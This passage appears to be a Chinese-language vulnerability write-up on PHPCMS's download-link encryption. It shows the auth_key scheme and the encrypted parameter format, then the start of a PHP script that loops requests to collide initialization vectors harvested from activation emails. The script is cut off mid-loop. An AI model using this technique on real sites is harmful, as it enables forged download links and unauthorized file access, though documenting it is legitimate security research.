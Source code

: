 ```php
md5(pc_base::load_config('system','auth_key').""); 
```

加密的字符串为

```php
"i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid 
```

$i 就是下载的 id 从页面可以获得$d 是 downloadtype 一般是 1 $s 空 $t 是时间。可以从 http 头获取到$ip 可知 $m 为 1 $f 是下载文件的 url 这里长度肯定超过 38 了。

先来获取邮件中的 code，为了增加碰撞的概率 这里用多个邮箱多次获取了激活链接并收集激活链接中参数 code 的前 4 位（IV）记录下来。

![](img/250004182bc194123f6a58c379aa6c780c52f4b7.jpg)

![](img/2500045063b37ac2c113509d45b148945b86e17a.jpg)

![](img/250005167a57bbd634cb46bdda2faf27a5bff254.jpg)

先来写一个小脚本来碰撞 IV

```php
<?php

$url = "http://**.**.**.**/index.php?m=content&c=down&a_k=f7c8BFEHCVEIBVYGVQJYB1ADXFNSAAxRAgcHDw5eDlMCR0oJR1oEUB5TW14RFREMHB9cWhRdWQ4CBRxHUEdQC0BPWlpOQQBOARtTGRUJEVVeQ2dDWh0AT1U%2BZ2N%2BDx0cWhEfUFwHHwxXUQNaDAVcBRVTWUEKVwhQWg";

$reg = '#a_k=(.*?)\"#';

$code  = array('7763','2bc5','8706','81b7','30a9','49e7','8731','9c2e','d007');

$i=0;

for(;;){

    $data = doGet($url);

    preg_match_all($reg, $data, $urls);    
```